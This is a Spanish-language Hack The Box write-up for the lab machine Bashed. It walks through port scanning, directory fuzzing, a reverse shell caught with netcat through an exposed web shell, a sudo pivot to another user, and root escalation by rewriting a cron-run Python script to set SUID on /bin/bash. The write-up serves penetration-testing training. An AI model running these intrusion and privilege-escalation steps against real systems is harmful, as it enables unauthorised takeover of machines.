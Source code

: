 ```yaml
---
title: HackTheBox - Bashed
categories: [Linux]
tags: [HackTheBox]
---
```


<img src="/assets/HTB/Bashed/bashed.png">

En este post voy a explicar como resolver la máquina Bashed de [Hack The Box](https://app.hackthebox.com/machines/118), en la cual vamos a estar ganando acceso mediante un archivo subido en la web el cual nos permite ejecutar comando, y para la escalada nos aprovecharemos de una ```tarea cron```.

## Escaneo de puertos

```
# sudo nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-12 20:53 -03
Nmap scan report for 10.10.10.68
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Nmap done: 1 IP address (1 host up) scanned in 25.87 secondss
```

Como vemos, la página tiene el puerto 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Bashed/bashed-pagina.png">

Si hacemos fuzzing, descubriremos un directorio llamado ```/dev```

```
$ wfuzz -c  --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://10.10.10.68/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.68/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000164:   301        9 L      28 W       312 Ch      "uploads"
000000338:   301        9 L      28 W       308 Ch      "php"
000000550:   301        9 L      28 W       308 Ch      "css"
000000834:   301        9 L      28 W       308 Ch      "dev"
```

# Reverse Shell

En el directorio ```/dev``` hay almacenado un archivo llamado ```phpbash.php```, ese archivo nos permite ejecutar comandos en la máquina víctima, vamos a mandarnos una reverse shell.

<img src="/assets/HTB/Bashed/reverse-shell.png">

```
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.68] 50380
bash: cannot set terminal process group (850): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Enumeración del sistema
Si hacemos un ```sudo -l```, veremos que podemos ejecutar como el usuario ```scriptmanager``` cualquier comando, vamos a lanzarnos una consola para convertirnos en ese usuario.

```
www-data@bashed:/var/www/html/dev$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager bash
scriptmanager@bashed:/var/www/html/dev$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Enumerando los directorios del sistema, encontremos uno llamado ```scripts```, en el cual hay dos archivos, uno llamado ```test.py``` y otros ```test.txt```.

```
scriptmanager@bashed:/var/www/html$ cd /scripts 
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Dec 12 17:06 test.txt
```
Si leemos el archivo ```test.py```, veremos que simplemente crea un archivo llamado ```test.txt``` en el cual escribe lo siguiente: ```testing 123!```

```
scriptmanager@bashed:/scripts$ cat test.py

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
Al hacer un ```ls -l``` veremos que el propietario del archivo ```test.py es scriptmanager``` y el propietario del ```test.txt es root```, por ende podemos deducir que hay alguna ```tarea cron``` programada para que este script se ejecute cada cierto tiempo, vamos a modificarlo para que cuando root lo ejecute, le dé permisos de ```SUID a la bash```.

# Escalada de privilegios

```
scriptmanager@bashed:/scripts$ rm test.py
scriptmanager@bashed:/scripts$ echo "import os" > test.py
scriptmanager@bashed:/scripts$ echo 'os.system("chmod u+s /bin/bash")' >> test.py
```

Luego de esperar un rato, al hacer un ```ls -l /bin/bash```, veremos que es ```SUID``` por ende para lanzarnos una bash con los permisos del propietario pondremos ```bash -p```

```
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
```